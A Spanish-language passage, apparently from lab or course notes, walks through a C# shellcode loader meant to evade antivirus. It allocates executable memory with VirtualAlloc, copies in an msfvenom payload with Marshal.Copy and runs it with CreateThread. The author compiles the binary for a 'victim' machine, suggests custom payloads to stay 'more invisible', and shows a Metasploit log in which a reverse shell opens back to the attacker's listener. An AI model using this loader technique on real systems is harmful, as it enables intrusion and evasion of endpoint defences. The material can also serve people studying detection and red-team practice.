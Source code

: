 En el script de `cenar` la funcion de `VirtualAlloc` donde el `Main` lo que hace es reservarnos una direccion de memoria donde se va a ejecutar este `payload` que nosotros tenemos en el codigo.

Le ponemos esto `VirtualAlloc(IntPtr.Zero, 0x1000, 0x3000, 0x40);` ya que estamos definiendo el espacio que en este caso sera `1000 y 3000` y despues le asignamos los permisos que en este caso es `0x40` que significa `Lectura, Escritura y Ejecuccion`.

Lo que vamos ha realizar con esto `Marshal.Copy(buf, 0, funcAdrr, buf.Length);` es copiar en el fragmento de memoria ese `buf` que es la variable del `payload` en la porcion de memoria que hemos definido llamada `funAdrr` y por ultimo con el `buf.Lenght` estamos definiendo el tamaño que en este caso es el que hemos definido en el `payload` anteriormente.

Ahora una vez que se haya copiado lo que vamos hacer es ejecutar ese `payload` seguidamente con `IntPtr hThread = CreateThread(IntPtr.Zero, 0, funcAdrr, IntPtr.Zero, 0, IntPtr.Zero);`.

Ahora para compilar el programa tendremos que darle a la pestaña de arriba llamada `Compilar` -> `Generar testshell`.

Info:

```
Compilación iniciada a las 12:24...
1>------ Operación Compilar iniciada: Proyecto: testshell, configuración: Debug Any CPU ------
1>  testshell -> C:\Users\empleado1\source\repos\testshell\testshell\bin\Debug\testshell.exe
========== Compilación: 1 correcto, 0 erróneo, 0 actualizado, 0 omitido ==========
========== Compilar completado a las 12:24 y tardó 06,357 segundos ==========
```

Por lo que vemos se compilo de forma correcta, por lo que ya tendremos nuestro binario preparado para ser ejecutado en la maquina victima llamada `WS02` sin que salte el antivirus pudiendo evadirlo.

Nos vamos a la siguiente ruta que es donde estara nuestro binario.

```
PATH = C:\Users\empleado1\source\repos\testshell\testshell\bin\Debug\
```

Como nosotros ya estamos a la escucha en `metasploit` de antes, solamente tendremos que pasar este binario a la maquina victima.

Y esto no lo va a detectar ya que las firmas son mucho mas complicadas de que pueda ser detectado por un antivirus, ya que no es una firma normal, si no que esta modificada a nuestra forma.

En algunos casos puede ser detectado ya que el `payload` que estamos metiendo en el codigo es de `msfvenom`, pero podremos modificar eso para que sea nuestro porpio `payload` ya asi sea aun mas invisible.

Ahora si nosotros ejecutamos el binario veremos la consola del mensaje que pusimos:

!\[\[Pasted image 20250205123125.png]]

Y si ahora nos vamos a donde tenemos la escucha en `msfconsole` veremos lo siguiente:

```
[*] Started reverse TCP handler on 192.168.5.205:7777 
[*] Sending stage (240 bytes) to 192.168.5.208
[*] Command shell session 1 opened (192.168.5.205:7777 -> 192.168.5.208:50362) at 2025-02-05 06:31:19 -0500


Shell Banner:
Microsoft Windows [Versi_n 10.0.19045.3803]
-----
          

C:\Users\empleado2\source\repos\testshell\testshell\bin\Debug>whoami
whoami
corp\empleado2
```

Vemos que efectivamente hemos obtenido una `reverse shell`.
